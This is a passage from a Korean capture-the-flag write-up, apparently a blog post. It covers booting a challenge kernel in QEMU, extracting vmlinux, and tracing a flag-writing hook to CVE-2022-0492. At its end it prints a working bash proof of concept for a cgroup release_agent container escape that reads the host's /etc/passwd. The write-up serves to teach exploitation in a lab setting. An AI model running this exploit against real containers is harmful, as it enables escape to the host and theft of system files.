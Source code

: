 다시 압축을 할 때는 위 스크립트를 활용하면 되며, 생성된 `initramfs` 파일 시스템은 isomaster로 넣어주든가, `bzImage`와 `initramfs`를 부팅 시에 사용하도록 스크립트를 수정해도 되겠다.

```bash
#!/bin/bash
qemu-system-x86_64 -boot d -kernel ./boot/bzImage -initrd ./boot/initramfs -m 2048 -c
pu host -smp 2 --enable-kvm -append "console=ttyS0" -nographic
```

만약 `init` 스크립트의 도커 실행 부분을 `sh`로 바꿔서 쉘이 실행되게끔 해도, `flag.txt`는 여전히 플래그가 아닌 출력을 갖고 있음을 알 수 있다.

![6](6.png)

### [0x02] 분석

---

그렇다면, `/flag.txt`를 진짜 플래그로 바꾸는, 그러니까 실제로 컨테이너 이스케이프가 intended 하게 발생했을 때, 이를 탐지하고 정상적인 플래그로 덮어쓰는 로직이 어딘가 존재해야 한다.

![7](7.png)

현재 `init` 스크립트에는 그러한 로직이 존재하지 않고, `/bin` 폴더에는 출제자가 임의로 추가한 `write_on_file` 실행 파일이 보인다.

```bash
/usr/src/linux-headers-$(uname -r)/scripts/extract-vmlinux bzImage > vmlinux
```

그렇다면, 이제 볼 것은 커널 로직이다. 커널의 실제 바이너리인 `vmlinux`를 `bzImage` 부팅 이미지 파일에서 추출하여, 이를 디컴파일한 뒤, `/flag.txt` 문자열을 사용하는 로직이 존재하는지 확인해 보자. 바이너리 추출은 위 명령어를 사용하면 된다.

![8](8.png)

그러면, 커널 내부 로직 중에 `/flag.txt`와 `/bin/write_on_file`을 사용하는 부분을 발견할 수 있다. 이 함수의 시작 주소를 보면 `sub_FFFFFFFF8111BAF0`임을 알 수 있고, 이 함수가 어떤 함수인지는 KASLR을 끈 상태로 `/proc/kallsyms`를 활용하여 알아볼 것이다.

```bash
#!/bin/bash
qemu-system-x86_64 -boot d -kernel ./boot/bzImage -initrd ./boot/initramfs -m 2048 -c
pu host -smp 2 --enable-kvm -append "console=ttyS0 nokaslr" -nographic
```

KASLR을 끄고 부팅하는 스크립트는 위와 같다.

![9](9.png)

자, `cgroup_release_agent_write` 함수가 `/flag.txt`를 수정하는 로직임을 알게 되었다. 그리고 이를 그대로 구글링하면, CVE-2022-0492가 연관된다는 것을 알 수 있고, 이는 컨테이너 이스케이프하는데 사용되는 취약점임을 확인할 수 있다. 이것이 정확히 어떤 취약점인지, cgroup이 어떤 것인지에 대한 블로그 포스팅은 추후에 올릴 것이고, 대충 Root Cause는 `cgroup_release_agent_write` 함수에서 `CAP_SYS_ADMIN` capability를 검사하지 않았기 때문에 발생하는 취약점이고, PoC는 아래와 같다.

```bash
unshare -UrmC bash
mkdir /tmp/mountest && mount -t cgroup -o rdma cgroup /tmp/mountest && mkdir /tmp/mountest/x
echo 1 > /tmp/mountest/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/mountest/release_agent
echo '#!/bin/sh' > /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/mountest/x/cgroup.procs"
cat /output
```

